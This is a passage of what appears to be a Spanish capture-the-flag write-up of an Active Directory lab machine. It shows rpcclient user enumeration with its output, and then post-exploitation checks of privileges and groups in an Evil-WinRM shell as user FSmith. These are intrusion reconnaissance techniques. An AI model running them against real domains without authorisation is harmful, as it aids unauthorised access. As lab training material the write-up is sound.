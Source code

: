 Solo hay uno.

Por último, veamos la información de los usuarios, quizá podamos ver alguna contraseña en texto claro:
```batch
rpcclient $> querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xfaf RID: 0x451 acb: 0x00010210 Account: FSmith Name: Fergus Smith      Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfad RID: 0x44f acb: 0x00000210 Account: HSmith Name: Hugo Smith        Desc: (null)
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xfb6 RID: 0x454 acb: 0x00000210 Account: svc_loanmgr    Name: L Manager Desc: (null)
```
Nada, por lo menos, sabemos que existe otro usuario.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="winPEAS">Enumeración de Máquina Manual y con winPEAS</h2>

Primero, vamos a enumerar un poco nuestro usuario, para ver qué privilegios tenemos y a qué grupos pertenecemos.

Veamos nuestros privilegios:
```batch
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
Nada que podamos usar.

Veamos toda la información de nuestro usuario:
```batch
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```